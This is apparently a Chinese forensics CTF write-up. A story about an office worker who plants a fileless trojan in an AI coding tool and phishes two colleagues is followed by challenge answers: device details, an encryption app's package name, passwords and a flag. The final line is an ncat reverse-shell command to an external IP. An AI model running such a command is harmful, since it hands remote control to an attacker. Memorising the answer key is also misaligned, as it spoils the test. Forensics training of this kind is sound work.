



# 前言：
**案件背景**
一段气，藏于硬盘之间 ，无影无形 ；二段气 ，隐于内存之中，似有还无 ；三段气 ，破于取证之下 ，水落石出！ 三十年河东三十年河西 ，莫欺平航穷！说罢，气息不再掩饰，取证人的锋芒，自此划破迷雾——各位选手，备好你的取证工具，这场藏着爱恨与恶意的电子迷局 ，该你破局了！
得不到的我就要毁掉！

凌晨五点 ，当公司大多数人还在被窝里与周公缠绵，“早起王” 已经坐在了工位上，电脑屏幕的光映着他略显疲惫却异常执着的脸。作为公司出 了名的卷王，早起王不仅每天第一个到岗，更是出了名的“ 深情种”——他暗恋同部门的倩倩

多年，从倩倩入职那天起，早餐、奶茶、加班陪伴，他样样都抢着来 ，可倩倩对他始终爱答不理， 眼底从来没有过他的身影。

这份小心翼翼的喜欢，在倩倩官宣和同事“赛博守夜人”（倩倩现男友）在一起后 ，彻底扭曲成了嫉妒的毒藤。没人知道“赛博守夜人”这个名号的由来，只知道他平时话不多，却总在深夜默默维护部门的办公设备，电脑出了任何问题，他随手敲几下键盘就能搞定 ，连公司的 lT 运维都得让他三分 。更关键的是 ，他心思缜密到极致，对网络安全有着近乎本能的敏感，平时没事就爱研究各种钓鱼套路、病毒特征，手机和电脑里全是相关的资料，活脱脱一个藏在工位里的“ 网络安全隐士”。

早起王早就看赛博守夜人不顺眼，不光是因为赛博守夜人抢走了他心心念念的倩倩，更因为赛博守夜人的技术实力远超自己——好几次早起王摸鱼研究一些“ 歪门邪道”的技术，被赛博守夜人无意间点破漏洞，让他在同事面前丢尽了脸面。嫉妒与不甘像潮水般将他淹没，“我得不到的，别人也别想得到；我比不过的，就要亲手毁掉”，早起王看着倩倩和赛博守夜人并肩上下班、午休时一起去食堂吃饭的身影，心底的恶意像野草般疯长，一场精心策划的报复，悄然拉开序幕。

他盯上了公司的api 中转站服务器，这是公司内网与外部数据交互的核心枢纽，一旦被攻破，就能轻松掌控内网的各类数据，也能神不知鬼不觉地投放病毒。凭借自己多年摸鱼摸来的技术底子，再加上熬夜查资料、找漏洞，早起王花了整整三天三夜，悄悄搭建了一个伪造的恶意api 中转站，完美伪装成公司官方站点，不仔细核查根本发现不了异常。

随后 ，他在自己的 PC 上打开了 ClaudeCode——没人知道 ，这个看似正常的

代码工具，早已被他植入了不落地的木马，他给这只木马取名“ 无影客”，堪称“ 电子幽灵”。这只木马最诡异的地方，就是全程不落地运行，不写入任何本地文件，不留下任何缓存痕迹，运行时隐藏在进程深处，结束后瞬间擦除所有运行记录 ，哪怕用专业工具检测 ，也很难捕捉到它的踪迹 ，仿佛从未出现过一般。

为了确保万无一失，早起王还特意测试了好几次，看着木马在后台静默运行，顺利绕过公司的基础安全防护，他的眼底闪过一丝疯狂。他甚至在自己的电脑里建了一个加密文件夹，里面存着倩倩的照片、未发送的情书，还有他规划的报复步骤 ，每一步都写得清清楚楚， 字里行间全是扭曲的执念。

木马启动的那一刻，早起王的嘴角勾起一抹诡异的笑，“倩倩，这只是开始”。他利用恶意中转站的漏洞 ，批量制作了钓鱼邮件 ，正文里藏着精心设计的陷阱，目标直指他恨之入骨的两个人——倩倩， 以及她的男友赛博守夜人。

上午九点 ，倩倩准时到岗， 习惯性地打开企业邮箱 ，噩梦开始了     

最近几天，早起王总是早早到岗，却不怎么工作，反而一直对着电脑屏幕敲个不停 ，眼神躲闪，偶尔还会偷偷瞥向他和倩倩的方向，神色诡异。作为心思缜密的“赛博守夜人”，他悄悄留意了早起王的电脑状态，发现早起王的电脑经常出现异常的网络连接 ，只是当时没有证据 ，也没多想 ，直到收到这封钓鱼邮件，他才瞬间将所有线索串联起来 ，心底隐约有了猜测。

就在病毒在倩倩电脑里悄然蔓延、偷偷传输数据，早起王的“ 无影客”木马还在后台疯狂与恶意api 中转站交互时，公司的网络安全监测系统突然发出刺耳的告警声——流量异常波动！大量未知来源的数据包在公司内网穿梭，异常连接频繁出现 ，部分内网设备出现了短暂的卡顿 ，疑似恶意攻击正在发生！

告警声打破了办公室的宁静，所有人都停下了手中的工作，议论纷纷。赛博

守夜人第一时间拿出自 己的备用笔记本，快速连接公司内网监测后台，调出流量日志，手指在键盘上飞速敲击，试图定位攻击源头。他发现，异常流量的源头指向 了早起王的办公 PC， 而被攻击的设备， 除了倩倩的电脑 ，还有几台与倩倩有频繁数据交互的同事电脑 ，只是攻击强度相对较弱。

早起王听到告警声，脸色瞬间变得惨白，手心冒出冷汗，下意识地想要关闭 电脑，销毁证据，可他刚伸手，就被旁边的赛博守夜人一眼看穿。赛博守夜人冷 冷地看了他一眼，语气平静却带着不容置疑的力量：“别 白费力气了，你的异常连接，我已经截图保存了，流量日志也已经备份，现在关掉电脑，只会更可疑。”

早起王的动作一顿，抬头看向赛博守夜人，眼底充满了慌乱和不甘，嘴唇动了动 ，却一句话也说不出来。他知道， 自 己的计划 ，可能要败露了。

安全团队第一时间介入，初步判断攻击源头与早起王、倩倩相关，随即启动应急取证流程 ，将二人列为重点调查对象。

## 早起王

1qazxsw2

## 倩倩

答案:
1.Google Pixel 6
2.西湖
3.2026-03-30 15:13:08
4.麻薯小蛋糕
5.6.0.0.130
6.wxid_uh5tfx2zi8yh22
7.冰糖
8.分析倩倩的手机结合逆向包，推荐的游戏叫什么？【答案格式：far echo】  
zero sievert
线索1：file://docs/storage/Users/currentUser/Download/Snipaste_2026-04-03_10-56-53.jpg
线索2：C:\hlnet\2-1775885547\倩倩的手机.tar\com.xingin.xhs_hos\com.xingin.xhs_hos\data\storage\el2\base\haps\redbook\files\RN_072
9.33
10.分析倩倩手机逆向包，数据加密app的包名是什么？  
com.koishi.fpt
11.接上题，初始化app时需要至少几位数的密码？【答案格式：10】 
6
12.接上题，加密后的文件名的后缀是什么？【答案格式：.enc】  
.tb
13.接上题，app会自动识别几种后缀的文件为图片类型？【答案格式：8】  
5
14.接上题，app共从用于自定义加密的so模块导入了几个方法？【答案格式：8】  
2
15.接上题，app设置的密码是多少？【答案格式：514aa11a4191a98】  
217fe94d01679h39
（prefs 里存的是 rot13 后的 217sr94q01679u39）
16.接上题，app中存储的门锁密码是多少？【答案格式：5141141919810】  
1472580369123
17.接上题，加密图片里面的隐藏的flag是多少？【答案格式：flag{123456!}】
flag{happy_forensics_2026!}

5436b61ea58adb794804e3f18ce53f2a
66.ncat.exe 156.238.239.253 1314 -e powershell